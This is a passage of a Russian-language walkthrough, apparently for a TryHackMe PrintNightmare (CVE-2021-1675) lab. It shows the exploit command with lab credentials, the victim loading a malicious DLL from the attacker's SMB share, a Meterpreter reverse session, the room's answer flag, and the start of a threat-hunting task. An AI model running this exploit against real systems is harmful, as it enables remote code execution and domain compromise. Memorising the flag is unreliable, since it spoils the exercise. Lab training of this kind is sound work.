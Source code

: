Запустить эксплойт
```commandline
root@attackbox:~/Desktop/pn/CVE-2021-1675# python3.9 CVE-2021-1675.py Finance-01.THMdepartment.local/sjohnston:mindheartbeauty76@MACHINE_IP '\\192.168.0.100\share\malicious.dll'
[*] Connecting to ncacn_np:MACHINE_IP[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\192.168.0.100\share\malicious.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
[*] Stage0: 0
[*] Try 3...
[*] Stage0: 0
```
Вы можете увидеть ошибки Python после Try 3..., но их можно смело игнорировать.

На компьютере злоумышленника вы должны увидеть SMB-соединение, вызывающее вредоносный DLL- файл.

Жертва подключается к общему ресурсу SMB для вредоносного
DLL
```commandline
root@attackbox:~/Desktop/pn# ...
[*] Incoming connection (MACHINE_IP,55037)
[*] AUTHENTICATE_MESSAGE (\,FINANCE-01)
[*] User FINANCE-01\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:share)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:share)
[*] Closing down connection (10.10.210.90,55037)
[*] Remaining connections []
```
Наконец, у вас будет успешный сеанс Meterpreter. 

Входящее соединение получено
`msf5 exploit(multi/handler) > [*] Sending stage (201283 bytes) to MACHINE_IP [*] Meterpreter session 1 opened (192.168.0.100:4444 -> MACHINE_IP:55038) at 2021-08-17 17:56:31 +0100
`

### Ответьте на вопросы ниже
Какой флаг находится на рабочем столе администратора?
```commandline
THM{SiGBQPMkSvejvmQNEL}
```

## Задание 5
Давайте представим себе наихудший сценарий, что THMdepartment был скомпрометирован через пару дней после выпуска PoC 
для PrintNightmare, и вы являетесь охотником за угрозами THMdepartment. Ваша компания подозревает, что злоумышленник 
использовал PrintNightmare для доступа к контроллеру домена, и ваша задача — найти доказательства или индикаторы 
компрометации.  Итак, следующим вопросом будет: какие индикаторы следует искать, чтобы обнаружить атаку PrintNightmare?

